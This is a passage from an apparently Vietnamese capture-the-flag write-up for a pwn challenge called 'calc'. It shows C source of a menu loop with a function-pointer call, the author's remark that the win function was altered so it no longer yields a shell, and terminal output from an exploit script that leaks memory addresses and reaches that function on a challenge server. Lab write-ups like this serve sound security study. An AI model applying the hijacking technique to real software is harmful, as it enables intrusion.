 ```python
        printMenu();
        scanf("%u", &choice);
        switch (choice)
        {
        case 1:
            enterData();
            break;
        
        case 2:
            sumVector();
            break;
        
        case 3:
            ((struct Vector *)sum)->printFunc(sum);
            break;

        case 4:
            loadFavorite();
            break;
        
        case 5:
            printFavorite();
            break;
        
        case 6:
            addFavorute();
            break;

        default:
            puts("Invaild option!");
            exit(-1);
        }
    }
}

void w1n(); // no more valid parameters to get shell !
```

Ở bài này, tác giả đã sửa lại hàm `w1n()` một chút, ở tham số truyền vào lại là `echo '¯\\_(ツ)_/¯'` nên chúng ta không thể có shell :vv
```c
─   ~/CTF/wannagame/calc                                                                                                                  5s  05:04:50 ─╮
╰─❯ python3 xpl.py                                                                                                                                          ─╯
[+] Opening connection to 45.122.249.68 on port 20018: Done
[*] '/home/w1n-gl0ry/CTF/wannagame/calc/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] pie_base :0x55c01873b000
[*] v_list array :0x55c01873e040
[*] sum :0x55c01873e080
[*] faves :0x55c01873e098
[*] w1n :0x55c01873b9d2
[*] system :0x55c01873b100
[*] Switching to interactive mode
¯\_(ツ)_/¯

```
Quay lại lúc nãy, chúng ta thực thi được hàm `w1n` 
